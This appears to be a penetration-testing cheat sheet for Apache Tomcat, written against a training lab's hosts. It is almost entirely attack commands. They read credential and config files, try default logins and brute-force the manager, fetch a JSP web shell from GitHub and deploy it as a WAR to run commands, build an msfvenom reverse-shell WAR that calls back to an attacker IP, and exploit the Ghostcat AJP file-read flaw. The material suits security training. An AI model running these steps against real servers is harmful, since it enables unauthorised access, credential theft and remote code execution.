 # tomcat
## version detection
http://app-dev.inlanefreight.local:8080/invalid        (invalid request)  
curl -s http://app-dev.inlanefreight.local:8080/docs/ | grep Tomcat  
## interesting locations
curl -s http://app-dev.inlanefreight.local:8080/conf/  
curl -s http://app-dev.inlanefreight.local:8080/conf/tomcat-users.xml  
curl -s http://app-dev.inlanefreight.local:8080/conf/tomcat-users.xsd  
curl -s http://app-dev.inlanefreight.local:8080/lib/  
curl -s http://app-dev.inlanefreight.local:8080/logs/  
curl -s http://app-dev.inlanefreight.local:8080/temp/  
curl -s http://app-dev.inlanefreight.local:8080/webapps/random_app1/WEB-INF/web.xml  
curl -s http://app-dev.inlanefreight.local:8080/webapps/random_app1/WEB-INF/classes  
## main urls for tomcat manager
curl -s http://app-dev.inlanefreight.local:8080/manager/  
curl -s http://app-dev.inlanefreight.local:8080/host-manager/  
## default credentials
tomcat:tomcat  
admin:admin  
## tomcat manager login bruteforcing
### metasploit
msf> auxiliary/scanner/http/tomcat_mgr_login  
### python script
https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce  
python3 mgr_brute.py -U http://web01.inlanefreight.local:8180/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt  
### tomcat wordlists
* user list
  * /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt
* pass list
  * /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
## tomcat manager - WAR file upload (/manager/html)
* example jsp rce payload
  * wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
* convert .jsp to .war
  * zip -r payload.war cmd.jsp
* tomcat manager upload
  * 'WAR file to deploy' section
  * Browse (choose .war file)
  * Deploy
* choose 'payload' from the 'Applications'
* load web shell in browser
  * firefox> http://web01.inlanefreight.local:8180/payload/cmd.jsp
* call web shell through curl
  * curl http://web01.inlanefreight.local:8180/payload/cmd.jsp?cmd=id
## generating war web shell with msfvenom
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war  
## uploading war file with metasploit
msf> exploit/multi/http/tomcat_mgr_upload  
## CVE-2020-1938 : Ghostcat vulnerability
### info
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1938  
Tomcat was found to be vulnerable to an unauthenticated LFI in a semi-recent discovery named Ghostcat.  
All Tomcat versions before 9.0.31, 8.5.51, and 7.0.100 were found vulnerable.  
This vulnerability was caused by a misconfiguration in the AJP (Apache Jserv Protocol) protocol used by Tomcat.  
AJP port: 8009
### exploitation
nmap -sV -p 8009 app-dev.inlanefreight.local  
https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi  
python2.7 tomcat-ajp.lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml  

